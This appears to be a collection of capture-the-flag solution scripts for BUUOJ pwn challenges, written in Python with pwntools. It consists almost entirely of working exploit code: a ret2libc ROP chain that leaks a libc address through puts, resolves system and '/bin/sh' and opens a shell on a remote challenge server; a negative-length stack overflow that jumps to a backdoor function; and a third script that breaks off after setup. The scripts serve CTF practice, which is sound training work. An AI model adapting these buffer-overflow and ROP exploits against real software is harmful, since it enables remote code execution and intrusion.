 # buu022-bjdctf_2020_babyrop

```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 27132)
elf = ELF('./pwn')

poprdi_ret = 0x400733

payload = cyclic(0x20 + 8) + p64(poprdi_ret) + p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['vuln'])

io.sendlineafter(b'tell me u story!\n', payload)
puts = u64(io.recv(6) + b'\x00\x00')

libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
sys = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')

print(hex(base))
print(hex(sys))
print(hex(binsh))

payload = cyclic(0x20 + 8) + p64(poprdi_ret) + p64(binsh)
payload += p64(sys)
payload += p64(elf.symbols['vuln'])
io.sendlineafter(b'tell me u story!\n', payload)

io.interactive()
```
# buu023-bjdctf_2020_babystack2

```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 25497)
elf = ELF('./pwn')

io.sendlineafter(b'[+]Please input the length of your name:', b'-1')

io.sendlineafter(b'[+]What\'s u name?', cyclic(16+8) + p64(elf.symbols['backdoor']))

io.interactive()
```
# buu024-jarvisoj_fm
```python
from pwn import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 29021)
elf = ELF('./pwn')

```